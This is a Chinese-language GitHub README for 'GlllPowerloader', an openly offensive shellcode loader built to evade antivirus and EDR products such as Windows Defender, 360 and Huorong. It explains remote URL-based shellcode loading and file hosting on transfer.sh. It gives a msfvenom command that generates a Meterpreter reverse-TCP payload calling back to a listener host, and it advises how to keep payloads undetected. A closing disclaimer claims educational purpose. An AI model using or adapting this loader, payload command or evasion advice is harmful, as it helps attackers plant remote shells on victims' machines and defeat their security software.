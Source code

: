# GlllPowerloader

- [GlllPowerloader](#glllpowerloader)
- [1.前言](#1前言)
- [2.功能](#2功能)
- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  - [0x02.使用方法](#0x02使用方法)
  - [0x03.视频演示](#0x03视频演示)
- [4.更新](#4更新)
- [5.免责声明](#5免责声明)
- [6.致谢](#6致谢)



# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，开源的目的是学习恶意代码和自动化脚本
- 本人并不推荐shellcode加密，一般的加密算法都会使程序熵增，可以使用远程加载和图片隐写的方式分离shellcode

# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   | 各种方式加载shellcode，绕过AV/EDR  |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
| 3.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.使用方法

- 大部分已经不能免杀了，不过稍微改一下还是能过主流AV
- 必须保证你的shellcode是干净的，否则还是会被Windows Defender抓住，您可以学习[Reflective DLL Injection](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)和[sRDI](https://github.com/monoxgas/sRDI/tree/master)来自定义shellcode
- 如果你在使用的过程中被defender查杀了，有可能是您使用的C2工具shellcode内存被抓住了，而不一定是加载器的问题
- 加载方式采用URL分离加载，所以你需要将shellcode（bin文件）上传或者托管至网站，并且记下URL


Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



## 0x03.视频演示



![示例GIF](https://github.com/INotGreen/GlllPowerloader/blob/main/Image/demo.gif)

# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15， 删除冗余的功能，优化代码，（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

[+]2023年11.20，免杀defender，360，火绒（前提是shellcode内存是没有被标记的）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

https://github.com/icyguider/Shhhloader
